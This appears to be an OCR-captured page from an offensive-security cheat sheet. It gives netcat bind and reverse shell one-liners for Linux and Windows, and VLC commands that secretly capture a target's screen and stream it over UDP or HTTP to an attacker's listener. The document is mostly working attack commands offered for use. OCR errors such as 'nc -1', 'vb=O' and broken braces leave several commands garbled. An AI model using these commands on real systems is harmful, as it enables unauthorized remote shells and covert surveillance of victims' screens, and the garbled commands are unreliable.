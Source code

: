 ```text
Linux Shell:
$ nc -1 -p [port] -e /bin/bash
Linux Reverse Shell:
$ nc [LocaliP] [port] -e /bin/bash
Windows Shell:
$ nc -1 -p [port] -e cmd.exe
Windows Reverse Shell:
$ nc [LocaliP] [port] -e cmd.exe
```

## Use VLC for streaming

```text
Use cvlc \(command line VLC\) on target to migrate popups
```

### Saving and streaming the screen through the udp protocol to the attacker's address and port 1234

```text
# Start a listener on the attacker machine
vlc udp://@:1234

-- OR --

# Start a listener that stores the stream in a file.
vlc udp://@:1234 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,
ab=128,channels=2,samplerate=44100):file{dst=test.mp4) :no-sout-rtp-sap
:no-shout-standard-sap :ttl=1 :shout-keep

# This may make the users screen flash. Lower frame rates delay the video.
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst=attackerip :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```


### Save and stream the screen in http protocol

```text
# Start a listener on the attacker machine
     vlc http://server.example.org:BOBO

-- OR --

# Start a listener that stores the stream to a file
vlc http://server.example.org:BOBO -sout=#
transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samp
rate=44100):file{dst=test.mp4)

# Start streaming on the target machine
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):http{mux=ffmpeg{mux=flv),dst=:8080/) :no-sout-rtp-sap :nosout-
standard-sap :ttl=1 :sout-keep
```
